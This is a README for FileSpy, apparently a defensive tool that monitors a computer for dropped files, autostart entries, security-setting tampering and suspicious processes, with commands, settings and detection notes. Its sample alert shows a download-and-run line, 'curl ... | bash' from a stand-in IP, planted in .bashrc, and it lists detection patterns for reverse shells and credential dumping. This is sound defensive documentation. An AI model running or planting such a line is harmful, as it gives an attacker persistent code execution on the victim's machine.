

# FileSpy

[](https://github.com/Eabusham2/New-File-spy/actions/workflows/ci.yml)

FileSpy watches your own computer and tells you, in plain English, when something
drops a file, makes itself start automatically, tampers with a security setting, or
runs in a suspicious way. If you run a program you do not trust and it drops a
remote-access trojan (RAT), adds a startup entry and launches it, FileSpy shows you
each step as it happens and ties the steps together.

It is a defensive monitoring tool. It observes and alerts; by default it changes nothing.

Runs on Windows 10/11 (the main target), Linux and macOS. Python 3.10 or newer.

## What it watches

| Area | What you are told about |
| --- | --- |
| **File drops** | New, renamed or modified files in the places malware uses (Temp, AppData, ProgramData, Downloads, Desktop, Startup folders and their Linux/macOS equivalents, plus any folder you add). Each file is identified by its content, hashed, and checked for name tricks, packing and known signatures. |
| **Autoruns / persistence** | Anything newly set to start by itself: registry Run keys, Winlogon and debugger hooks, services, scheduled tasks, Startup folder shortcuts; cron jobs, systemd units, desktop autostart, shell startup files, library preloads, SSH keys; launch agents and daemons. |
| **Security settings** | Tampering with Microsoft Defender, the firewall, UAC, SmartScreen, Windows Update, proxy and DNS, remote access, credential protection, script policy, event logging, file associations, root certificates and more (over 300 Windows settings), the hosts file, and on Linux/macOS accounts, sudo, SSH, PAM, kernel hardening, Gatekeeper, SIP and FileVault. |
| **Running programs** | Every new process: where it runs from, its command line, what started it, whether its name imitates a system program, and whether it is a file that was just dropped. |
| **Network** | New listening ports, and internet connections made by programs already flagged as suspicious or by Windows tools that rarely need the internet. |

Everything is stored locally and can be exported to JSON, JSON Lines, CSV, a
self-contained HTML report, or a ZIP of all of them.

## Get it

**Windows, no Python needed:** download `FileSpy.exe` from the
[Releases page](https://github.com/Eabusham2/New-File-spy/releases) and double-click it.
It opens the window shown below. Press **Start watching**, then run or open whatever you
want to observe. `filespy-cli.exe` on the same page is the command line.

The executables are built by this repository's CI from the source you see here, and each
build is started and self-tested before it is published. They are not code-signed, so
Windows SmartScreen will ask before the first run, and some antivirus products are
suspicious of programs packaged this way. If that worries you, run from source instead.



*The window with sample alerts, captured on Linux. On Windows it uses the native look.*

**From source, on any system:**

```
pip install git+https://github.com/Eabusham2/New-File-spy.git
filespy selftest
filespy gui          # the window
filespy watch        # or stay in the terminal
```

`filespy selftest` drops three harmless test files into a private temporary folder and
confirms that an alert fires. `filespy watch` takes a baseline of the current state (what
already exists is not an alert) and then reports changes until you press Ctrl+C.

On Windows, run the terminal as administrator to see other users' programs and all
system locations. It works without that, with less visibility. `filespy doctor` shows
what is and is not available.

To work from a clone instead:

```
git clone https://github.com/Eabusham2/New-File-spy.git
cd New-File-spy
pip install -e ".[dev]"
```

## What an alert looks like

This is output from a real run on Linux, with hashes and one detail line shortened. A
program was dropped and started, a second file carrying known RAT markers was dropped,
and a download-and-run line was appended to a shell startup file:

```
14:26:09  MEDIUM    FILE     New program dropped: svch0st.exe
          /tmp/fs-demo/svch0st.exe
          - A program was written to a temporary folder
          sha256 8ac215ec4c1c...   35,336 bytes
14:26:09  HIGH      PROCESS  A dropped file was executed: svch0st.exe
          /tmp/fs-demo/svch0st.exe
          - This program is a file that was dropped while FileSpy was watching
          pid 1258   command: /tmp/fs-demo/svch0st.exe 8   sha256 8ac215ec4c1c...
14:26:11  CRITICAL  FILE     New program dropped: invoice.pdf.exe
          /tmp/fs-demo/invoice.pdf.exe
          - Matches signature: AsyncRAT / DcRat remote access trojan
          - Matches signature: Quasar remote access trojan
          - Double extension: looks like .pdf but is really .exe
          - A program was written to a temporary folder
          - Carries no digital signature
          sha256 317eec889ff1...   1,024 bytes
14:26:15  CRITICAL  AUTORUN  A shell startup file was changed: .bashrc
          /root/.bashrc
          - A download is being piped straight into an interpreter
          - A shell startup file was changed; it runs automatically
          - It launches a script host or download tool rather than a normal program
          added: curl -fsSL http://203.0.113.5/i.sh | bash

Stopped. 4 events this session: 2 critical, 1 high, 1 medium.
```

Every alert lists its reasons. Each reason has a score; the scores add up to a severity
(info, low, medium, high, critical). A few findings, such as a known-bad hash, set a
minimum severity on their own. The console shows low and above; everything is stored.

## Commands

| Command | What it does |
| --- | --- |
| `filespy gui` | Open the window: start and stop watching, a live colour-coded alert list with the reasons for each alert, export, a one-click check of the PC, quarantine, and settings. `FileSpy.exe` is this window. |
| `filespy watch` | Monitor live. `-p FOLDER` adds a folder, `--only files,processes` picks monitors, `--export html,json` writes a report when you stop, `--json` prints JSON lines, `-v` shows informational events too. |
| `filespy scan PATH... [-r]` | Examine files or folders once. |
| `filespy audit` | Check what is on the machine right now: suspicious autostart entries, settings already in a dangerous state, and suspicious running programs. |
| `filespy autoruns` | List everything set to start automatically. |
| `filespy snapshot` / `filespy diff A B` | Save the state before and after running something, then see exactly what changed. |
| `filespy events` | Look through stored events (`--since 2h`, `--severity high`, `--category autorun`, `--session ID`, `--text name`). |
| `filespy sessions` | List past watch sessions. |
| `filespy export -f html -o report.html` | Export stored events with the same filters. |
| `filespy quarantine list\|add\|restore\|delete` | Manage quarantined files. |
| `filespy config ...` | Show and change settings, and export or import them. |
| `filespy doctor` | Check that everything FileSpy needs is in place. |
| `filespy selftest` | Prove that alerts fire. |

`--data-dir FOLDER` (before the command) keeps a separate set of settings, events and
quarantine, which is handy for one-off investigations.

### A typical investigation

```
filespy snapshot -o before.json
filespy watch --export html,json        # leave running, run the suspect program in another window, then Ctrl+C
filespy snapshot -o after.json
filespy diff before.json after.json
```

Run real malware samples only in a disposable virtual machine with no access to your
files or network. FileSpy tells you what a sample did; it does not contain it.

## Exports and settings

Settings live in `config.json` in the data folder (`filespy config path` prints where).

```
filespy config keys                                   # every setting and its current value
filespy config set export.auto_on_exit true           # write a report whenever a watch session ends
filespy config set export.formats html,csv,json
filespy config set export.directory "D:\Reports"
filespy config set export.min_severity low            # leave informational events out of exports
filespy config set export.categories file,autorun     # only these kinds of events (empty = all)
filespy config set files.paths "D:\Sandbox,E:\Shared" # extra folders to watch
filespy config export my-settings.json                # copy settings to another machine
filespy config import my-settings.json
```

Exports embed the settings that were in force (`export.include_settings`), with the
webhook address and API key removed. The HTML report is a single file with a filter box
and needs no internet connection. CSV cells are protected against spreadsheet formula
injection, and file names that try to disguise themselves are shown with the trick made
visible.

The settings you are most likely to change:

| Setting | Default | Meaning |
| --- | --- | --- |
| `general.min_severity` | `low` | Lowest severity printed on the console. |
| `files.use_default_paths` | `true` | Watch the standard drop locations for this operating system. |
| `files.paths` | empty | Extra folders to watch. |
| `files.exclude` | browser caches, `node_modules`, `.git`, ... | Glob patterns that are ignored. |
| `files.report_all` | `false` | Also record ordinary files (documents, pictures), not only runnable ones. |
| `files.settle_seconds` | `1.0` | How long a new file must be quiet before it is examined. |
| `processes.interval` | `0.5` | Seconds between checks for new programs. |
| `processes.record_all` | `false` | Store every program start, not only suspicious ones. |
| `settings.max_tier` | `2` | 1 = essentials only, 3 = every setting in the catalog. |
| `alerts.desktop` / `alerts.desktop_min_severity` | `true` / `high` | Desktop notifications. |
| `alerts.sound` | `false` | Beep on high and critical alerts. |
| `alerts.webhook_url` | empty | Post high and critical alerts as JSON (works with Slack and Discord webhooks). Must be https. |
| `detection.hash_blocklists` | empty | Text files with one MD5 or SHA-256 per line; a match is critical. |
| `detection.hash_allowlists` | empty | Hashes that are never flagged. |
| `detection.rules_files` | empty | Extra signature files in the same JSON format as the built-in rules. |
| `detection.yara_rules_dir` | empty | Folder of YARA rules (needs `pip install filespy[yara]`). |
| `detection.virustotal` | `false` | Look up hashes on VirusTotal. Sends the hash only, never the file. Key in `detection.virustotal_api_key` or the `FILESPY_VT_KEY` environment variable. |
| `response.quarantine_min_severity` | empty (off) | Automatically quarantine dropped files at or above this severity. |
| `response.kill_min_severity` | empty (off) | Automatically stop programs flagged at or above this severity. |
| `storage.retention_days` | `30` | How long events are kept. |

## Automatic responses (off by default)

FileSpy only alerts unless you turn a response on:

```
filespy config set response.quarantine_min_severity critical
filespy config set response.kill_min_severity critical
```

Quarantined files are stored scrambled so they cannot run, and can be listed, restored
or deleted with `filespy quarantine`. A file is only quarantined if it is still exactly
the file that was examined; a process is only stopped if it is still the same process,
and core system processes are never stopped. Any detector can be wrong, so start with
`critical` and see how it behaves before lowering the threshold.

## How detection works

- **Files** are classified by their content first and their extension second, so a
  program renamed to `photo.jpg` is still recognised as a program. Checks include known
  hashes, about 35 built-in signature rules (common RAT families such as AsyncRAT,
  Quasar, njRAT, NanoCore, Remcos, DarkComet and XWorm, plus Cobalt Strike and
  Meterpreter artefacts, credential dumpers, ransomware preparation, miners, web shells
  and script downloaders), double extensions, hidden text-direction characters, system
  program names used in the wrong folder, packers and missing signatures.
- **Programs** are checked against about 40 command-line patterns (encoded PowerShell,
  download-and-run chains, Defender and firewall tampering, shadow-copy deletion,
  credential dumping, reverse shells, and more), the folder they run from, look-alike
  names such as `svch0st.exe`, and unusual parents such as Word starting PowerShell.
- **Correlation**: a file dropped during the session is remembered. If it is later
  executed, run by a script interpreter, or made to start automatically, the alert says
  so and its severity rises. Network activity by a flagged program is reported too.

The rules are data, not code: see `src/filespy/data/rules.json` and
`src/filespy/data/windows_settings.json`.

## Honest limits

- FileSpy is not an antivirus and does not replace one. It has a small signature set and
  relies mostly on behaviour, so it will miss things and it will sometimes flag legitimate
  software, particularly installers and updaters, which drop and run programs by design.
- It runs as a normal program and looks at the system at short intervals. A process that
  lives for less than about half a second can be missed, and FileSpy cannot tell you
  which process created a given file.
- Malware that already controls the machine can hide from, or stop, any tool running at
  the same privilege level, including this one.
- A network port number is weak evidence; port matches only add to other findings.
- A pipeline typed in a terminal, such as `curl ... | bash`, runs as separate programs, so it
  is not recognised as a pipeline. What it then drops, runs or installs is still reported.
- Programs you build yourself count as dropped files when they appear in a watched folder.
  Each one raises one alert per build, not one per run; add your project folders to
  `files.exclude` to silence them.
- On Windows, a very large burst of file activity can overflow the system's change buffer
  and some file events may be lost.
- Without administrator rights, other users' processes and some system locations are not
  visible. On macOS, other programs' network connections need root.
- The Windows executables are unsigned, and the window needs a desktop session; on a
  server without one, use the command line.
- Scheduled tasks are read from the registry cache. Windows Management Instrumentation
  event subscriptions, COM hijacks and browser extensions are not covered yet.

## Privacy

Everything stays on your computer. FileSpy never uploads file contents. The only network
traffic it can produce is opt-in: a VirusTotal lookup that sends a hash, and a webhook
you configure yourself.

Data folder: `%LOCALAPPDATA%\FileSpy` on Windows, `~/.local/share/filespy` on Linux,
`~/Library/Application Support/FileSpy` on macOS, or wherever `FILESPY_HOME` or
`--data-dir` points. It holds the settings, the event database, logs, exports, snapshots
and quarantine. FileSpy ignores its own folder and its own helper processes.

## Development

```
pip install -e ".[dev]"
ruff check src tests
python -m pytest
```

The tests run on Windows, Linux and macOS in CI. Windows-only code sits behind a small
registry interface with an in-memory fake, so the whole suite also runs on Linux. The
window is tested for real wherever a display exists (CI uses a virtual one on Linux).

To build the Windows executables yourself, on Windows:

```
pip install ".[exe]"
pyinstaller --onefile --windowed --name FileSpy --collect-data filespy packaging/filespy_gui.py
pyinstaller --onefile --console --name filespy-cli --collect-data filespy packaging/filespy_cli.py
```

Topics: security, malware-detection, malware-analysis, file-monitoring, persistence-detection,
autoruns, process-monitoring, rat-detection, threat-detection, blue-team, dfir,
incident-response, endpoint-security, host-monitoring, windows, linux, macos, python.
